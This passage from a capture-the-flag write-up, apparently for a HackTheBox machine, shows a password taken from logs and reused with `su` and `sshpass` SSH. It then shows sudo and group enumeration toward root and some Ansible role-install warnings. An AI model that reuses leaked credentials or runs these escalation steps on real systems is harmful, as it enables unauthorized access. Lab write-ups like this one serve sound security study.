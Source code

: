 The password “Lopezz1992%123” is logged!

### su / SSH

This password works with `su`:

```

dev_acc@intuition:/var/log/suricata$ su - lopez
Password: 
lopez@intuition:~$ 

```

Or over SSH directly:

```

oxdf@hacky$ sshpass -p 'Lopezz1992%123' ssh lopez@comprezzor.htb
...[snip]...
lopez@intuition:~$ 

```

## Shell as root

### Enumeration

#### sudo

lopez can run `/opt/runner/runner2` as root:

```

lopez@intuition:~$ sudo -l
[sudo] password for lopez: 
Matching Defaults entries for lopez on intuition:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User lopez may run the following commands on intuition:
    (ALL : ALL) /opt/runner2/runner2

```

#### Groups

lopez is in the sys-adm group:

```

lopez@intuition:/opt/runner2$ id
uid=1003(lopez) gid=1003(lopez) groups=1003(lopez),1004(sys-adm)

```


[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /dev/shm/0xdf.tar was NOT installed successfully: the specified roles path exists and is not a directory.
[WARNING]: Meta file /root/.ansible/roles/0xdf.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf2.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf3.tar is empty. Skipping dependencies.